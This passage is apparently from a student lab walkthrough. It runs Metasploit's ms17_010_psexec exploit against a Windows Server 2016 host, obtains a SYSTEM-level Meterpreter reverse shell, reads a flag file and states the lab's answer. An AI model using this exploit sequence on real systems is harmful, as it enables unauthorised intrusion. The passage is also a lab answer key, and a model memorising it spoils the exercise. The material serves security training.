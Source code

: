 Then, students need to launch the exploit:

```shell
exploit
```
```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 172.16.1.5:4444 
[*] 172.16.1.13:445 - Target OS: Windows Server 2016 Standard 14393
[*] 172.16.1.13:445 - Built a write-what-where primitive...
[+] 172.16.1.13:445 - Overwrite complete... SYSTEM session obtained!
[*] 172.16.1.13:445 - Selecting PowerShell target
[*] 172.16.1.13:445 - Executing the payload...
[+] 172.16.1.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 172.16.1.13
[*] Meterpreter session 1 opened (172.16.1.5:4444 -> 172.16.1.13:49671) at 2022-11-11 04:53:16 -0500

meterpreter >
```

After attaining the `meterpreter` session successfully, students can read the flag file "Skills-flag.txt" which is under the `C:\Users\Administrator\Desktop\` directory using `cat`:

```shell
cat C:/Users/Administrator/Desktop/Skills-flag.txt
```
```
meterpreter > cat C:/Users/Administrator/Desktop/Skills-flag.txt

One-H0st-Down!
```

Alternatively, students can also drop into a system shell then read the flag file:

```cmd
shell
type C:\Users\Administrator\Desktop\Skills-flag.txt
```
```
meterpreter > shell

Process 3052 created.
Channel 2 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>type C:\Users\Administrator\Desktop\Skills-flag.txt

type C:\Users\Administrator\Desktop\Skills-flag.txt
One-H0st-Down!
```

Answer: `One-H0st-Down!`